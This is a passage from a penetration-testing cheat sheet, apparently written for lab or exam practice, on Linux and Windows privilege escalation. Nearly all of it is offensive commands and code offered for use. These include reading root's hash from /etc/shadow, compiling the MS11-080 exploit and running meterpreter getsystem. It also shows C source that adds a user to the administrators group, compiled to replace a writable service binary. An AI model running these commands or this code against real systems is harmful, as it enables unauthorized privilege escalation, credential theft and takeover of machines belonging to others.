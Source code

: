  -   Kernel Exploit Suggestions for Kernel Version 3.0.0  
     ./usr/share/linux-exploit-suggester/Linux\_Exploit\_Suggester.pl -k 3.0.0

-   Precompiled Linux Kernel Exploits  - ***Super handy if GCC is not installed on the target machine!***

    [*https://www.kernel-exploits.com/*](https://www.kernel-exploits.com/)    

-   Collect root password  
    cat /etc/shadow |grep root
    
-   Find and display the proof.txt or flag.txt - LOOT!
    `cat ``find / -name proof.txt -print```

-   Windows Privilege Escalation
    --------------------------------------------------------------------------------------------------------------------------

-   Windows Privilege Escalation resource
    http://www.fuzzysecurity.com/tutorials/16.html

-   Try the getsystem command using meterpreter - rarely works but is worth a try.
    `meterpreter > getsystem`

-   Metasploit Meterpreter Privilege Escalation Guide
    https://www.offensive-security.com/metasploit-unleashed/privilege-escalation/

-   Windows MS11-080 - http://www.exploit-db.com/exploits/18176/  
    python pyinstaller.py --onefile ms11-080.py  
    mx11-080.exe -O XP
    
-   Powershell Priv Escalation Tools
    https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc

-   Windows Service Configuration Viewer - Check for misconfigurations
    in services that can lead to privilege escalation. You can replace
    the executable with your own and have windows execute whatever code
    you want as the privileged user.  
    icacls scsiaccess.exe

> scsiaccess.exe  
> NT AUTHORITY\\SYSTEM:(I)(F)  
> BUILTIN\\Administrators:(I)(F)  
> BUILTIN\\Users:(I)(RX)  
> APPLICATION PACKAGE AUTHORITY\\ALL APPLICATION PACKAGES:(I)(RX)  
> Everyone:(I)(F)

-   Compile a custom add user command in windows using C  
    root@kali:~\# cat useradd.c  
    \#include <stdlib.h> /\* system, NULL, EXIT\_FAILURE \*/  
    int main ()  
    {  
    int i;  
    i=system ("net localgroup administrators low /add");  
    return 0;  
    }  
      
    i686-w64-mingw32-gcc -o scsiaccess.exe useradd.c
